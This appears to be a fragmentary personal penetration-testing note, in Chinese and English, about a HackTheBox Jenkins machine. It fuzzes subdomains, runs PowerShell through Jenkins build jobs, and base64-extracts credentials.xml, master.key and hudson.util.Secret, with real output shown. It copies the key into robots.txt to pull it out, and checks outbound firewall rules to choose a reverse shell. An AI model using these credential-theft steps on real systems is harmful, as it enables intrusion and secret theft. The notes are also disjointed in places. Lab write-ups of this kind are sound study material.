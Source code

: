 [[Jenkins]]



  鉴于域名的使用`object.htb`，我将对其他子域名进行模糊测试，但找不到任何子域名：
  ```
 wfuzz -u http://object.htb -H 'Host: FUZZ.object.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 29932
  ```

1158b5cd9f43894a28519d5110803ce243
  [[ICMP]]
  这条命令会立刻让本机**忽略所有 ICMP echo 请求（也就是不再回应 ping）**。下面把细节、检查/恢复与持久化方法都列清楚——方便你在考试/渗透测试里快速用和撤回。

for mac

```BNF
echo "block drop inet proto icmp all" | sudo pfctl -ef - 
```

for kali

```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

  

So I'm going to add this domain, but since the subdomain isn't showing up. i will explode

```

wfuzz -u http://object.htb -H 'Host: FUZZ.object.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 29932kali
```

```BNF
 curl -I http://titan:tianlhl@10.10.11.132:8080/job/bbb/build\?token\=api
```

- 你在 Job 里选的是 **“Execute Windows batch command”**，所以 Jenkins 把你写的命令丢给 `cmd.exe` 执行。
- 你用了：
    
    ```
    powershell cd C:\Users\oliver\AppData\Local\Jenkins | ls
    
    ```
    
- 但是：
    - `cd` 在 PowerShell 是内置命令没问题；
    - 但 `| ls` 在 **cmd.exe** 里不生效（cmd 不认识 `ls`，它不是 Windows 内置命令）。
    - 所以报错了。

---

### ✅ 正确写法

### 方法 1：整段命令交给 PowerShell

在 Batch Command 里写：

```Bash
powershell -NoProfile -ExecutionPolicy Bypass -Command "cd C:\Users\oliver\AppData\Local\Jenkins; Get-ChildItem"
```

  
to find the jenkins, need get his path
## 通过环境变量查看 Jenkins Home

Jenkins 安装通常会在环境变量里设置 `JENKINS_HOME`：

```PowerShell
powershell -NoProfile -Command "Get-ChildItem Env:JENKINS_HOME"
```

find the home , then list them

```Bash
powershell -NoProfile -Command "Get-ChildItem 'C:\Users\oliver\AppData\Local\Jenkins\.jenkins' -Force | Select-Object Name,FullName"
```
- 便于通过文本通道（例如 HTTP 参数、日志、电子邮件）传输二进制或包含特殊字符的文件内容。
    
- 便于在远端把文件抓下来，再通过 base64 解码还原成原始文件。

```
PS > [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("blahblah"))
nV�nV�

PS > [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("nVnV"))
blZuVg==
```

```
powershell -NoProfile -Command "[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\AppData\Local\Jenkins\.jenkins\credentials.xml'))"
powershell -NoProfile -Command "[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key'))"
powershell -NoProfile -Command "[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret'))"
```

find two, need 3

```Bash
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\bbb>powershell -NoProfile -Command "[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\AppData\Local\Jenkins\.jenkins\credentials.xml'))" 
Exception calling "ReadAllBytes" with "1" argument(s): "Could not find file 
'C:\Users\oliver\AppData\Local\Jenkins\.jenkins\credentials.xml'."
At line:1 char:1
+ [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\Ap ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : FileNotFoundException
 

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\bbb>powershell -NoProfile -Command "[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key'))" 
ZjY3M2ZkYjBjNGZjYzMzOTA3MDQzNWJkYmUxYTAzOWQ4M2E1OTdiZjIxZWFmYmI3ZjliMzViNTBmY2UwMDZlNTY0Y2ZmNDU2NTUzZWQ3M2NiMWZhNTY4YjY4YjMxMGFkZGM1NzZmMTYzN2E3ZmU3MzQxNGE0YzZmZjEwYjRlMjNhZGM1MzhlOWIzNjlhMGM2ZGU4ZmMyOTlkZmEyYTM5MDRlYzczYTI0YWE0ODU1MGIyNzZiZTUxZjkxNjU2Nzk1OTViMmNhYzAzY2MyMDQ0ZjNjNzAyZDY3NzE2OWUyZjRkM2JkOTZkODMyMWEyZTE5ZTJiZjBjNzZmZTMxZGIxOQ==

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\bbb>powershell -NoProfile -Command "[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret'))" 
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```

```
 echo "ZjY3M2ZkYjBjNGZjYzMzOTA3MDQzNWJkYmUxYTAzOWQ4M2E1OTdiZjIxZWFmYmI3ZjliMzViNTBmY2UwMDZlNTY0Y2ZmNDU2NTUzZWQ3M2NiMWZhNTY4YjY4YjMxMGFkZGM1NzZmMTYzN2E3ZmU3MzQxNGE0YzZmZjEwYjRlMjNhZGM1MzhlOWIzNjlhMGM2ZGU4ZmMyOTlkZmEyYTM5MDRlYzczYTI0YWE0ODU1MGIyNzZiZTUxZjkxNjU2Nzk1OTViMmNhYzAzY2MyMDQ0ZjNjNzAyZDY3NzE2OWUyZjRkM2JkOTZkODMyMWEyZTE5ZTJiZjBjNzZmZTMxZGIxOQ==" | base64 -d > master.key
```

check the fold

```Bash
powershell -NoProfile -Command "Get-ChildItem 'C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users' -Force | ForEach-Object { $_.FullName }"
```

```Bash
powershell -NoProfile -Command "[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\titan_14012995377028264036\config.xml'))"
```

```
copy C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secret\master.key  C:\Users\oliver\AppData\Local\Jenkins\war\robots.txt
```

powershell base64

  

```Bash
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('blahblab64'))

PS > [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("string"))
```

- **排障**：如果你发现某些应用无法访问网络，先看看是不是有阻止出站的规则。from guess to verify 
    
- **渗透/红队/考试**（如 OSCP）：
    
    - 有些靶机可能配置了防火墙阻止反向 shell 或特定端口的出站流量。
        
    - 查看出站阻断规则，有助于判断你该用正向 shell、HTTP(s) beacon、DNS 隧道等绕过方式。

```
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block

```
- **Get-NetFirewallRule**  
    Windows 防火墙模块里的 cmdlet，用来获取系统中定义的防火墙规则。
    
- **-Direction Outbound**  
    只列出 **出站** 规则（即从本机发往外部的流量）。
    
- **-Enabled True**  
    只显示启用中的规则。
    
- **-Action Block**  
    只显示操作为 **阻止** 的规则。

```
powershell -NoProfile -Command "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block | Format-Table -Property DisplayName,@{Name='Protocol';Expression={($_ | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($_ | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($_ | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($_ | Get-NetFirewallAddressFilter).RemoteAddress}},Enabled,Profile,Direction,Action"

```

[[evil-winrm]]